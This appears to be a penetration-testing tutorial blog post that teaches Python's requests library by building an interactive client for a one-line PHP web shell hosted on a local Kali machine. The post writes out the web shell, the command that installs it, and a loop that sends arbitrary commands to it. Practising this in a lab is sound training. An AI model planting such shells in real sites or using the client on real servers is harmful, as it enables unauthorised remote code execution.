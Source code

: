 ```yaml
---
title: Interact with web shells using python
published: true
layout: post
tags:
 - offsec
---
```


**GitHub Repository**: [https://github.com/gh0x0st/RCE_Web_Shell_Python](https://github.com/gh0x0st/RCE_Web_Shell_Python)

# Interact with Web Shells Using Python
Whether you're a seasoned penetration tester or a beginner, the field of penetration testing is a mile long and a mile deep; the opportunities within all the disciplines are endless. Offensive Security offers an advanced course called Advanced Web Attacks and Exploitation (AWAE) https://www.offensive-security.com/awae-oswe/ that focuses on white box web app penetration tests. 

## Objectives
Prior to registering for the course, you should ensure that you are familiar with writing scripts in at least one programming language. It is a common recommendation for you to focus on python and it's requests library. Interacting with web shells is a great way to practice both. However, once you start to get the hang of how it works, you could practice this with any language, all from your Kali Linux. Let's get our feet wet:

1. Hosting a Web Shell
2. Interface Class
3. Requests Module
4. Interacting with a Web Shell

## Hosting a Web Shell
A web shell is a web file that provides you a shell-like interface that you can use to interact with the operating system through arbitrary commands. For this example, we'll use a PHP file as it's a very simple syntax. On your Kali machine, simply create a php file on your web root with `<?php system($_GET["command"]); ?>` in the body and start up Apache.

```console
──(tristram㉿kali)-[~]
└─$ echo '<?php system($_GET["command"]); ?>' | sudo tee /var/www/html/shell.php
```

**Let's break down that PHP Code:**

* system is a built-in function that is used to execute the given command
* GET is a variable that contains form data from a get method
* command is the parameter that we'll use to pass our string with contains the command we want to have run via the system function

We can view this in action manually using our browser as such to confirm we have a working web shell:

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/browser_interaction.PNG?raw=true "browser_interaction")

## Interface Class
This piece is completely optional, but is a good habit to get into if you're new to writing scripts. Specifically, you should get into the habit of being consistent with your code so pieces are re-usable and readable. This can provide you a clean looking interface that you could re-use in various other scripts. 

Consider the following example of an interface class that we can be used to print banners and other formatted messages to the terminal:

```Python
# Simple interface class
class Interface ():
    def __init__ (self):
        self.red = '\033[91m'
        self.green = '\033[92m'
        self.white = '\033[37m'
        self.yellow = '\033[93m'
        self.bold = '\033[1m'
        self.end = '\033[0m'

    def header(self):
        print('\n    >> Remote Code Execution')
        print('    >> https://www.github.com/gh0x0st\n')

    def info (self, message):
        print(f"[{self.white}*{self.end}] {message}")

    def warning (self, message):
        print(f"[{self.yellow}!{self.end}] {message}")

    def error (self, message):
        print(f"[{self.red}x{self.end}] {message}")

    def success (self, message):
        print(f"[{self.green}✓{self.end}] {self.bold}{message}{self.end}")

# Instantiate our interface class
output = Interface()

# Output examples
output.header()
output.info('Informational Message')
output.warning('Warning Message')
output.error('Error Message')
output.success('Success Message')
```

Keep in mind when you create a class, `__init__` is executed every time you instantiate the class. Here, we'll use `__init__` to hold the values for our color codes. Then we'll define the functions or methods that will output our header and message logs when we call them from within our interface object.

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/interface_class.png?raw=true "interface_class")

## Requests Module
The requests module is a python library that allows you to make web requests, such as GET and POST requests. Within the AWAE course, you can imagine that would be extremely useful and it would be to your benefit to get comfortable with it before you start your course. It is also a very straight forward module to learn. 

With this example, all we're going to focus on are GET requests. It's relatively straight forward to invoke these requests, but play around and see what other information you could have stored in r after your initial request.

```Python
import requests
r = requests.get('http://127.0.0.1')
r.status_code
r.text
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/requests_module.png?raw=true "requests_module")

## Interacting with a Web Shell
Now that we have a web shell that we know we can interactive with manually via our browser, let's learn how to do so via the requests library. When we build a script that interacts with a web shell, we want to build in a way so we can interact it as if it was a terminal without having to run the script over and over for each command. 

To accomplish this, we'll use a `while True` loop that will constantly loop until we exit. Within this loop is where we'll use the requests library to make GET requests against the shell.php inserting our instruction into the 'command' parameter. 

You can also provide yourself a good visual indicator that you're connected with your web shell is to change the input text to something different using the `input` function. This is completely optional but gives you an opportunity to put your own style into your code.

```Python
# Remote code execution
while True:
    try:
        cmd = input("\033[91mRCE\033[0m > ")
        if cmd == 'exit':
            raise KeyboardInterrupt
        r = requests.get(target + "?command=" + cmd, verify=False)
        if r.status_code == 200:
            print(r.text)
        else:
            raise Exception
    except KeyboardInterrupt:
        sys.exit()
    except ConnectionError:
        output.error('We lost our connection to the web shell')
        sys.exit()
    except:
        output.error('Something unexpected happened')
        sys.exit()
```

![Alt text](https://github.com/gh0x0st/RCE_Web_Shell_Python/blob/main/Screenshots/rce_script.png?raw=true "rce_script")

## Putting it all together
By putting everything together, we can create ourselves a baseline script that we can use to interact with a web shell via python. Once you break down the tasks you need to accomplish into smaller bits, you'll see how easy it is to learn new aspects of a programming language that you might not be familiar with. 

If you want to take this to the next level, setup your Kali machine with a HTML form and a PHP file upload script and practice uploading files with a POST request and chain your script with what you've learned with GET requests to create a fully scripted exploit.

Be informed, be secure.
